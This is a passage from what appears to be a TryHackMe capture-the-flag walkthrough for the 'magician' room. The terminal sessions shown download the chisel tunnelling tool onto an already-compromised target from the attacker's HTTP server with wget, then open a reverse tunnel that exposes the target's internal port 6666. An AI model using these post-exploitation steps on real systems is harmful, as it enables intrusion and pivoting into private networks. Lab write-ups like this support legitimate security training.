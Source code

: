 ```tsx
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ gunzip chisel_1.8.1_linux_amd64.gz 
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ ls
chisel_1.8.1_linux_amd64  rce.png
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ mv chisel_1.8.1_linux_amd64 chisel
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ chmod +x chisel
```

Transfer the tool to the target machine for exploitation

On local machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ python3 -m http.server  80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On target machine:

```tsx
sh-4.4$ wget http://10.8.97213/chisel
Connecting to 10.8.97.213:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7995392 (7.6M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   7.62M  1.59MB/s    in 9.5s    

2023-07-18 12:30:17 (824 KB/s) - ‘chisel’ saved [7995392/7995392]

sh-4.4$ chmod +x chisel
```

All setup have been done! Let’s exploit!

On target machine:

```tsx
sh-4.4$ ./chisel client 10.8.97.213:1234 R:1235:127.0.0.1:6666
./chisel client 10.8.97.213:1234 R:1235:127.0.0.1:6666
```

On local machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/magician]
└─$ ./chisel server --port 1234 --reverse
2023/07/18 12:39:11 server: Reverse tunnelling enabled
2023/07/18 12:39:11 server: Fingerprint BPZvjej+RiJqsVl2PJ6290oLPUoAwsbWE2gY+CVhW1E=
2023/07/18 12:39:11 server: Listening on http://0.0.0.0:1234
2023/07/18 12:39:34 server: session#1: tun: proxy#R:1235=>6666: Listening
```
